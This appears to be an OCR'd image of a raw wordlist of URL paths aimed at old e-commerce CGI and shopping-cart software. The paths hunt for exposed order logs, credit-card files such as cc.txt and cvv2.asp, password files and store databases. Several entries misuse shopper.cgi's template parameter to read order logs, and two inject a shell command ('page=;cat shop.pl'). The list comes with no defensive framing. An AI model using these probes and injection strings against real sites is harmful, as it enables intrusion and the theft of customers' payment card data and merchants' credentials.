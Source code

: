 /derbyteccgi/shopper.cgi?
search=action&keywords=moron&template=order.log
/cgi-bin/mc.txt
/cgi-bin/mall2000.cgi
/cgi-win/DCShop/auth_data/auth_user_file.txt
/cgi-bin/shopper.cgi?search=action&keywords=root
%20&template=order.log
/store/commerce.cgi
/scripts/shop/orders/orders.txt
/product/shopping350.mdb
/super_stats/access_logs
/cgi-local/orders/orders.txt
/cgi-bin/PDG_Cart/mc.txt
/cgibin/cart32.exe
/cgi-bin/Shopper.exe?search=action&keywords=psiber
%20&template=other/risinglogorder.log
/cgibin/password.txt
/Catalog/cart/carttrial.dat
/catalog/Admin/Admin.asp
/ecommerce/admin/user/admin.asp
/data/productcart/database/EIPC.mdb
/store/admin_files/commerce_user_lib.pl
/cgi-bin/store/index.cgi
/paynet.txt
/config/datasources/store/billing.mdb
/_database/shopping350.mdb
/cgi-bin/shopper.exe?search
/cgi/shop.pl/page=;cat%20shop.pl
/cgi-bin/store/Admin_files/orders.txt
/cgi-bin/store/commerce_user_lib.pl
/cgi-sys/pagelog.cgi
/cgi-sys/shop.pl/page=;cat%20shop.pl
/scripts/weblog
/fpdb/shopping400.mdb
/htbin/shop/orders/orders.txt
/cgi-bin/%20shopper.cgi?
preadd=action&key=PROFA&template=myorder.log
/cgi-bin/shopper.exe?
search=action&keywords=psiber&template=order.log
/mall_log_files/
/cgi-bin/perlshop.cgi
/tienda/shopdbtest.asp
/cgi-bin/%20shopper.cgi?
preadd=action&key=PROFA&template=shopping.mdb
/cgi-bin/shopper.cgi?
search=action&keywords=whinhall&template=order.log
/WebShop/logs/ck.log
/fpdb/shopping300.mdb
/mysql/store.mdb
/cgi-bin/store/Admin_files/commerce_user_lib.pl
/config.dat
/order/order.log
/commerce_user_lib.pl
/Admin_files/AuthorizeNet_user_lib.pl
/cvv2.asp
/cgi-bin/cart32/CART32-order.txt
/wwwlog
/cool-logs/mlog.html
/cgi-bin/pass/merchant.cgi.log
/cgi-local/pagelog.cgi
/cgi-bin/pagelog.cgi
/cgi-bin/orders/cc.txt
/cgis/shop/orders/orders.txt
/admin/admin_conf.pl